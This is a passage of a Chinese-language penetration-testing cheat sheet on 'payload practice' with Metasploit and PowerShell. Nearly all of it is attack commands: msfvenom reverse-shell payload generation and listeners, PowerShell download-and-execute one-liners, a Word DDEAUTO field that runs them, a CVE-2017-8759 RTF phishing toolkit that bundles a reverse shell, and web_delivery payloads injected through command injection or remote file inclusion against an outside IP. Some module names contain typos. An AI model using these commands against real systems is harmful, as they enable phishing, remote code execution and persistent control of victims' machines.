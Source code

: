  >netstat -tnlp（查看本地端口连接）

### 【payload实战】

* **Powershell配合msf无文件攻击**
  * （1）生成ps脚本：
    ```bash
    msfvenom -p windows/x64/neterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=1125 -f psh-reflection > x.ps1
    ```
    
  * （2）设置监听：
    ```bash
    msf > handler -H 1.1.1.1 -P 1125 -p windows/x64/metepreter/reverse_tcp
    ```
    
  * （3）将x.ps1文件放在一个网站根目录上
  * （4）客户端运行：
    ```bash
    powershell IEX(New-Object Net.WebClient).DownloadString('http://网站IP地址/x.ps1')
    ```
    
* **Powershell配合word伪装木马**
  * 前三个步骤与上一个实战相同
  * （4）新建word设置域：
    ```bash
    DDEAUTO C:\\windows\\system32\\cmd.exe" /k powershell IEX(New-Object Net.WebClient).DownloadString('http://网站IP地址/x.ps1')
    ```
  >一般拿到shell执行权限时会进行进程迁移，迁移到系统必定会打开不关闭的进程中，防止对方终止进程导致失去连接（meterpreter > migrate 进程号）

* **msf使用宏钓鱼**
  * （1）首先下载宏钓鱼工具（git clone https://github.com/bhdresh/CVE-2017-8759.git）
  * （2）创建rtf文件：
    ```bash
    python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://本地IP/logo.txt
    ```
  >生成一个rtf文件，此时这个文件还是正常的

    
  * （3）使用msf创建反弹payload：
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f exe > shell.exe
    ```
  * （4）将反弹shell和rtf文件进行捆绑：
    ```bash
    python cve-2017-8759_toolkit.py -M exp -e http://本地IP/shell.exe -l /root/shell.exe
    ```
  >此时shell和rtf文件捆绑，脚本会在本地开启一个80端口

  * （5）开启监听，将钓鱼文件发送到目标，等待上线


* **msf使用web_delivery钓鱼**
  * （1）在msf中选择exploit/multi/script/web_delivery模块
  * （2）options查看模块参数
  * （3）输入payload（set payload php/meterpreter/reverse_tcp）选择payload要与整个模块选择的脚本语言对应，php对应php
  * （4）选择结果类型，如输出php，powershell脚本等（set target php）
  * （5）run运行
  >反弹脚本不同，功能也有差别，如php反弹脚本没有进程转移功能
  >web_delivery的利用方式有两种
  >命令注入：在注入点注入：  php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"
  >远程文件包含：在包含漏洞处包含： http://172.20.163.160:1111/OgsOFaj3yKH

